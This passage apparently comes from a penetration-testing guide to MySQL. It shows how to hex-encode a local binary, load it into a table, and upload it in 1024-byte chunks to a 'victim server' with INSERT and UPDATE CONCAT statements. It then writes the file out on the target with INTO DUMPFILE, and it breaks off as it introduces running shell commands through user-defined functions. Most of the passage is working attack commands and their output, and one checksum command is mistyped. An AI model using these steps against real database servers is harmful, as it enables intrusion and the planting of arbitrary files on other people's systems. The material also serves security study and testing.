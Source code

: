 Example:
  To upload `/bin/ls`, you have to create a file on your local machine and then load it into a table:
    ```
    mysql> SELECT HEX(LOAD_FILE('/bin/ls')) INTO DUMPFILE '/tmp/ls.dmp';
    Query OK, 1 row affected (0.00 sec)

    mysql> LOAD DATA INFILE '/tmp/ls.dmp' INTO TABLE mytable FIELDS TERMINATED BY 'sOmErandOM' LINES TERMINATED BY 'oTHerRnD' (data);
    Query OK, 1 row affected (0.01 sec)
    Records: 1  Deleted: 0  Skipped: 0  Warnings: 0
    ```

  You can test it by using INTO DUMPFILE to recreate the same file:
    ```
    mysql> SELECT UNHEX(data) FROM mytable INTO DUMPFILE '/tmp/ls.test';
    Query OK, 1 row affected (0.00 sec)
    ```

  And test it:
    ```
    # sha25666sum /tmp/ls.test /bin/ls
    1e87d9599ddea2a93f060b50a54066e8b756d752158e6147cbb99b06eb11d99   /tmp/ls.test
    1e87d9599ddea2a93f060b50a54066e8b756d752158e6147cbb99b06eb11d99   /bin/ls
    ```

If everything works as expected you can upload the file content to a table on the victim server.

You will need to split the DUMPFILE you created into chunks of 1024 bytes and then insert them into a table field.
  Example:
    First you have to perform an insert with the first chunk. Next, you have to update the field by adding the other chunks.
      ```
      INSERT INTO victimtable(field) VALUES(0x7F454C4602010100000...1B000);
      ...
      UPDATE victimtable SET field=CONCAT(data,0x12000000...4C030000120);
      ...
      UPDATE victimtable SET field=CONCAT(data,0x00000000...9030000);
      ...
      UPDATE ...
      ```

Finally you can write the file on the target system by executing:
  ```
  SELECT <victim field> FROM <victim table> WHERE <optional conditional> INTO DUMPFILE '<output path>';
  ```

###### 4.8.2.3. Executing Shell commands
Writing files is a great thing, but what about executing commands?
MySQL does not provide a function to run shell commands by default, but it provides [User Defined Functions](https://dev.mysql.com/doc/refman/5.7/en/adding-udf.html) **(UDF)**.
